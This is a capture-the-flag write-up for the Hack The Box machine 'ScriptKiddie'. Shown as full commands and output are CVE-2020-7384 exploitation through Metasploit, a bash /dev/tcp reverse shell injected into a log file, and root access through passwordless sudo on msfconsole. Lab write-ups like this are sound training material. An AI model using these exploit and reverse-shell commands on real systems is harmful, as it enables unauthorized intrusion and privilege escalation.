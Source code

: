 ![](Images/EtZVJweXIAgrjpt.jpg)
# About
ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability (CVE-2020-7384),
along with classic attacks such as OS command injection and an insecure passwordless sudo configuration.
Initial foothold on the machine is gained by uploading a malicious .apk file from a web interface that calls a
vulnerable version of msfvenom to generate downloadable payloads. Once shell is obtained, lateral
movement to a second user is performed by injecting commands into a log file which provides unsanitized
input to a Bash script that is triggered on file modification. This user is allowed to run msfconsole as root
via sudo without supplying a password, resulting in the escalation of privileges.

Skills Required
* Metasploit usage
* Skills Learned
* Exploiting CVE-2020-7384
* OS Command Injection in command arguments
* Running system commands from Metasploit console
* 
What I learn from this machine ?
* Enumeration
* Malicious payload (template bin)
* Reverse Shell
* Privilege escalation

## Enumeration
```text
# Nmap 7.91 scan initiated Fri Jun  4 15:33:24 2021 as: nmap -sV -sC -oN nmap/scan.txt 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  4 15:33:52 2021 -- 1 IP address (1 host up) scanned in 27.68 seconds
```
Ports 22 and 5000 are open, and we can see that werkzeug is running, which is a WSGI toolkit. When we hope into the web site we can see website with bunch of tools.

![](Images/web.png)

Here I test few things, I do some dirbuster and nothing interesting found. I ran some nmap  with web tool it give back a same result Nothing interesting things happen in nmap section.

After that time waste I hope over to payload section and we have lot to try for exploits like Command Injection, RFI, LFI, File Upload Vulnerability etc.. 

When I saw this **Venom it up -gen rev tcp meterpreter bins** . It might have a exploit so I search for it, Finally I figure it's a **Rapid 7 APK Template Command Injection**

![](Images/msfvenom.png)

Link to documentation :
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

```bash
┌─[visith@parrot]─[~/CTF/htb/Script_kiddie]
└──╼ $msfconsole
 msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set RHOST 10.10.10.226
RHOST => 10.10.10.226
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set RPORT 5000
RPORT => 5000
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/visith/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```
Now we got the **apk** file . setup a listner and upload into our payload tab. In options put it to android.

![](Images/payload%20inject.png)

After we generate the payload. We got the shell.
```bash
─[visith@parrot]─[~/CTF/htb/Script_kiddie]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.226] 59726
whoami
kid
/usr/bin/script -qc /bin/bash /dev/null
kid@scriptkiddie:~/html$ ls
ls
__pycache__  app.py  static  templates
kid@scriptkiddie:~/html$ 
kid@scriptkiddie:~/html$ pwd
pwd
/home/kid/html
kid@scriptkiddie:~/html$ cd ..
cd ..
kid@scriptkiddie:~$ ls
ls
html  logs  snap  user.txt
kid@scriptkiddie:~$ cat user.txt
cat user.txt
71e094a16b1985dlk7375f1f8b6dd356
```
If you check into the /etc/passwd we can see another user names **pwn**.

```bash
kid@scriptkiddie:~$ cat /etc/passwd | grep -v 'false\|nologin'
cat /etc/passwd | grep -v 'false\|nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```
For more information I enumerate the machine with **linpeas.sh** . I found this on output.

![](Images/linpeas.png)
I think **pwn** user having higher privileges. So I tried to search more about **pwn**.

![](Images/linpeas1.png)

I was confused wtf was that scanlosers.sh. So I navigated to that directory and take a look into it. Guess what we found our way into pwn user.

![](Images/pwn%20scanloser.png)


saclosers.sh encounter with file named as hackers. What caught my attention about the file was the group owner assigned to file **pwn**. 

```bash
kid@scriptkiddie:~$ cd logs
cd logs
kid@scriptkiddie:~/logs$ ls
ls
hackers
kid@scriptkiddie:~/logs$ ls -la
ls -la
total 8
drwxrwxrwx  2 kid kid 4096 Jun  5 02:55 .
drwxr-xr-x 11 kid kid 4096 Feb  3 11:49 ..
-rw-rw-r--  1 kid pwn    0 Jun  5 02:55 hackers
kid@scriptkiddie:~/logs$ 
```
Now we need to setup rev shell. I use everything to make that rev shell and all the time it failed to me. It make me so frustrated. After sometime this was the correct one. 

My revshell was this :
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/4242 0>&1' #" >> hackers
```
After we execute it we got a callback.

```bash
┌─[visith@parrot]─[~/CTF/htb]
└──╼ $nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.226] 35956
bash: cannot set terminal process group (886): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ ls
ls
recon
scanlosers.sh
```
Let's see are we get the higher privilege.

```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
We didn't but we got higher privilege as a msfconsole :) 

```bash
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to check out the result of hosts and services

msf6 > cd /root 
msf6 > ls
[*] exec: ls
root.txt
snap
msf6 > cat root.txt
[*] exec: cat root.txt

a84a8ee04cb36a3981be581a85672db4
```
Thx for reading !! 
Happy hacking 